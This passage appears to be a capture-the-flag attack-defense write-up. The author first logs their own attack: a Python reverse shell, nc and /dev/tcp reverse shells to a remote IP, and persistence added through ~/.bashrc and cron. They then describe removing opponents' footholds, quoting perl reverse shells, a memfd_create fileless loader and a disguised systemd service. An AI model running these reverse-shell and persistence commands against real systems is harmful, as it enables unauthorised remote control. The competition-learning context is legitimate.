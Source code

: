 ```
export RHOST="(IP removed)";export RPORT=4240;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
ls
cd nathaniel_singer/
[...]
nano ~/.bashrc
nc (IP removed) 4240 -e /bin/bash >/dev/null &
nc (IP removed) 4240 -e /bin/bash >/dev/null &
nc (IP removed) 4240
[...]
echo 'nc (IP removed) 4240 -e /bin/bash >/dev/null &' >> ~/.bashrc
[...]
crontab -e
[200~* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/(IP removed)/4240 0>&1'~
```

So that was easy. I removed the cron entries, systemd services, bashrc entries, and SSH keys for the `nathaniel_singer` admin management user. I also killed any shells that I saw when monitoring `ps -ef`.

Some interesting processes I saw:
```
perl -MIO -e $p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c= [...]
```
This likely indicated an exploit for the original CVE vulnerability, and the reverse shell still running. Killing it quickly killed the shell.
```
sh -c /usr/bin/perl -e 'use Socket;$i="10.128.0.2";$p=5885;socket(S,PF_INET,SOCK_STREAM,getprotobyname [...]
```
Another exploit string for a reverse shell.

```
python3 -c import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}") [...]
```
Something really suspicious that I just decided to kill before investigating further. Afterwards, I found that it was being run by a service called `hab.service,` with the *totally legit* description reading "This restarts services periodically to keep the box open to all users." That one did fool me, so I didn't actually delete the service, just that process. Nice one. 
```
sh -i
```
I kept seeing processes running under this. Likely some reverse shell. I just killed them and they never came back after patching.
```
/proc/6309/fd/4
```
That's got to be related to the `memfd_create` exploit from earlier. I later found out that it was running a persistent script but hey, there's no way that's not malicious...
```
tcpdump -i any port 5000 -vvv
```
Someone trying to steal my flags! I just deleted `tcpdump` and removed all the sources from `/etc/apt/sources.list` to stop them from installing it back.
```
nc -l 5000
```
Yea, I'll just kill that.
